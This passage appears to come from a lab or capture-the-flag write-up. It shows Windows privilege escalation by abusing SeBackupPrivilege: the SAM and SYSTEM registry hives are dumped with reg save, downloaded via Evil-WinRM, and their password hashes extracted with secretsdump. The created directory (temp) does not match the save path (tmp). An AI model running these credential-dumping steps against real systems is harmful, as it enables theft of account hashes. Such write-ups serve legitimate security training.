 # Privilege Escalation
## SeBackupPrivilege
- Checking privileges with `whoami /all`, we find that the user is part of the `Backup Operators` group and has `SeBackupPrivilege` and `SeRestorePrivilege`:

<img src="/assets/screenshots/cicada/cicada9.png" alt="cicada9" width="600" />

- These privileges allow the user to back up sensitive system files. We exploit this to copy the *SAM* and *SYSTEM* hives and extract their hashes.

### Steps
1. Navigate to a writable directory:
   ```bash
   mkdir c:\users\public\temp
   cd c:\users\public\temp
   ```
2. Dump the hives:
   ```bash
   reg save hklm\sam C:\Users\Public\tmp\sam.hive
   reg save hklm\system C:\Users\Public\tmp\system.hive
   ```
3. Download the files to the attacking machine using Evil-WinRM's `download` function.
4. Extract hashes:
   ```bash
   secretsdump -sam sam.hive -system system.hive LOCAL
   ```
